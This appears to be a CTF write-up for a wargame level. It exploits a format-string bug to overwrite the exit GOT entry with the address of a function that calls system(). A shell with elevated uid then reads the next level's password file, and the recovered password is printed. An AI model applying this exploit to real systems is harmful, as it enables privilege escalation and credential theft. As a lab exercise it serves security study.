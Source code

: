# Level 5

- `objdump -R ./level5`
<pre>
./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
<strong>08049838</strong> R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
</pre>
- (hex)0x08049838 = (little indian)\\x38\\x98\\x04\\x08
- `python -c "print('AAAA' + '\x38\x98\x04\x08' + '%x ' * 5)" | ./level5`
<pre>
AAAA8200 b7fd1ac0 b7ff37d0 <strong>41414141 8049838</strong>
</pre>
- `gdb ./level5`
<pre>
(gdb) disass o
Dump of assembler code for function o:
   <strong>0x080484a4</strong> <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
</pre>
- (hex)0x080484a5 = (dec)134513828
- `(python -c "print('AAAA' + '\x38\x98\x04\x08' + '%134513820d' + '%5\$n')"; cat) | ./level5 | tr -d ' '`
```
id
uid=2045(level5)gid=2045(level5)euid=2064(level6)egid=100(users)groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
AAAA8d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
